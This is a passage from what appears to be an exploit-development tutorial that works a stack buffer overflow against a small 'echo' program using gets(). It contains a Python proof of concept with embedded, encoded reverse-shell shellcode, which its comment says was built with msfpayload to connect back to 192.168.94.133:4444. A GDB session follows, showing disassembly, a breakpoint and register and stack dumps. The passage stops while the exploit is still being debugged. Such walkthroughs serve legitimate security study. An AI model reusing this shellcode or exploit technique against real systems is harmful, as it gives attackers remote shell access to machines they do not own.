 Note that we encode the shellcode to ensure that we don't include any newline or EOF characters as `gets()` will terminate the input with either of these characters. 

Now we can start to put our exploit together:

```
#!/usr/bin/env python2

# msfpayload linux/x86/shell_reverse_tcp LHOST=192.168.94.133 PORT=4444 R | msfencode -b
# '\x0a\x04' -e x86/shikata_ga_nai -t c
# [*] x86/shikata_ga_nai succeeded with size 95 (iteration=1)
shellcode = ("\xbe\x05\x2e\xfb\xea\xda\xc0\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x12\x31\x72\x12\x83\xea\xfc\x03\x77\x20\x19\x1f\x46\xe7\x2a"
"\x03\xfb\x54\x86\xae\xf9\xd3\xc9\x9f\x9b\x2e\x89\x73\x3a\x01"
"\xb5\xbe\x3c\x28\xb3\xb9\x54\x6b\xeb\x64\x21\x03\xee\x98\x38"
"\x88\x67\x79\x8a\x56\x28\x2b\xb9\x25\xcb\x42\xdc\x87\x4c\x06"
"\x76\x37\x62\xd4\xee\x2f\x53\x78\x87\xc1\x22\x9f\x05\x4d\xbc"
"\x81\x19\x7a\x73\xc1")

# Filler bytes = 260 - 95 bytes taken by shellcode
filler_bytes = "\xCC" * 165

buffer = shellcode + filler_bytes + '\x00\x00\x00\x00' 

print buffer
```

Now let's take another look at things in GDB using this new input buffer. We'll put a breakpoint after the `gets()` and increase the amount of stack memory displayed so we can check our buffer:

```
root@kali:~# chmod 744 poc.py 
root@kali:~# ./poc.py > input
root@kali:~# gdb ./echo -q
Reading symbols from /root/echo...(no debugging symbols found)...done.
gdb$ set disassembly-flavor intel
gdb$ disass echo
Dump of assembler code for function echo:
   0x080484dd <+0>:	push   ebp
   0x080484de <+1>:	mov    ebp,esp
   0x080484e0 <+3>:	sub    esp,0x10c
   0x080484e6 <+9>:	lea    eax,[ebp-0x100]
   0x080484ec <+15>:	mov    DWORD PTR [esp+0x8],eax
   0x080484f0 <+19>:	mov    DWORD PTR [esp+0x4],0x100
   0x080484f8 <+27>:	mov    DWORD PTR [esp],0x0
   0x080484ff <+34>:	call   0x80484ac <setbytes>
   0x08048504 <+39>:	lea    eax,[ebp-0x100]
   0x0804850a <+45>:	mov    DWORD PTR [esp],eax
   0x0804850d <+48>:	call   0x8048380 <gets@plt>
   0x08048512 <+53>:	lea    eax,[ebp-0x100]
   0x08048518 <+59>:	mov    DWORD PTR [esp+0x4],eax
   0x0804851c <+63>:	mov    DWORD PTR [esp],0x80485f0
   0x08048523 <+70>:	call   0x8048370 <printf@plt>
   0x08048528 <+75>:	leave  
   0x08048529 <+76>:	ret    
End of assembler dump.
gdb$ b *0x08048512
Breakpoint 1 at 0x8048512
gdb$ contextsize-stack 12
gdb$ r < input 
--------------------------------------------------------------------------[regs]
  EAX: 0xFFFFD3F0  EBX: 0xF7FBCFF4  ECX: 0xFFFFD3F0  EDX: 0xF7FBE354  o d I t s Z a P c 
  ESI: 0x00000000  EDI: 0x00000000  EBP: 0xFFFFD4F0  ESP: 0xFFFFD3E4  EIP: 0x08048512
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002B
[0x002B:0xFFFFD3E4]------------------------------------------------------[stack]
0xFFFFD4F4 : 00 00 00 00 00 D4 FB F7 - 00 00 00 00 02 00 00 00 ................
```